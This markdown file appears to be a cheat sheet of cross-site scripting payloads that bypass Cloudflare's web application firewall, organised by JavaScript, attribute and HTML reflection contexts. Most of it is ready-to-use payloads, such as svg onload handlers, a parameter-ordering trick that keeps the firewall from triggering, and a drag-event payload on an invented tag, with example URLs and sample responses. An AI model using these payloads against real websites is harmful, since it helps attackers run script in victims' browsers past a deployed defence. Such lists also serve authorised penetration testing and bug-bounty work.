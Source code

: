# CloudFlare XSS bypasses in different contexts

### JS Context

For **JS** context, when multiple parameters are reflected inside **<script>** tag e.g:
```
<script>
something({"some/thing":{"key":[{"name":"PARAM2_REFLECTION1","age":"","country":"","address1":"PARAM1_REFLECTION2","id":"123"}]}});
</script>
```

Set value of parameter which is reflected first: `</script%20`

Set value of parameter which is reflected afterwards: `><svg/oni=on onload=confirm(2)>`

The parameter which is reflected first, should be placed at end of URL, like:

`https://example[.]com/some/endpoint?param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E&param2=</script%20`

If it is placed before like folllowing, Cloudflare WAF will trigger:

`https://example[.]com/some/endpoint?param2=</script%20&param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E`

Sample Response contents:
```
<script>
something({"some/thing":{"key":[{"name":"</script ","age":"","country":"","address1":"><svg/oni=on onload=confirm(2)>","id":"123"}]}});
</script>
```

### Attribute Context

For Attribute context use:
```
"><svg/oni=on onload=confirm(2)>
'><svg/oni=on onload=confirm(2)>
```

Following bypasses WAF when request verb is POST:
```
cccc" oni=on onclick=print() dddd
```

### HTML Context

* For HTML context use:

`<svg/oni=on onload=confirm(2)>` Credits for XSS bypass in HTML context: [Troll_13](https://twitter.com/Troll_13/status/1353713311972552709)

* When `>` is present somewhere after our payload in response page:

`<svg oni=on onload=alert(1)//` e.g reflected as `<svg oni=on onload=alert(1)//</h2>` (Crafted on `February 01, 2022`)

* When user input is reflected twice and `>` is disallowed for valid existent tags and `>` is not present in response body:

`><svg oni=on onload=alert(document.domain)//` will e.g get reflected as `Found ><svg oni=on onload=alert(document.domain)//{"><svg oni=on onload=alert(document.domain)\/\/":null}` and XSS will trigger.

* When `>` is not present after our payload anywhere in response body and at the same time when `>` is not allowed as its allowed in previous payloads, inexistent tag can be provided for xss:

`<o oni=on ondrag=alert(1)>Drag Me` e.g reflected as `<o oni=on ondrag=alert(1)>Drag Me no left angle bracket present here` -> then highlight text and drag it to trigger XSS (Crafted on `February 01, 2022`)


---

Bypasses tested on: `August 26, 2021` and `February 01, 2022`
